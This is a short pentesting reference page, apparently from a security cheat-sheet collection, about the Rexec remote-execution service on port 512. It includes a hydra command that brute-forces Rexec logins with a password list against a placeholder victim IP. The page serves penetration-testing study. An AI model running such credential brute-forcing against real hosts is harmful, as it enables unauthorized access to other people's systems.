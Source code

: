 512 - Pentesting Rexec
Basic Information

It is a service that allows you to execute a command inside a host if you know valid credentials (username and password).

Default Port: 512

PORT    STATE SERVICE
512/tcp open  exec

hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
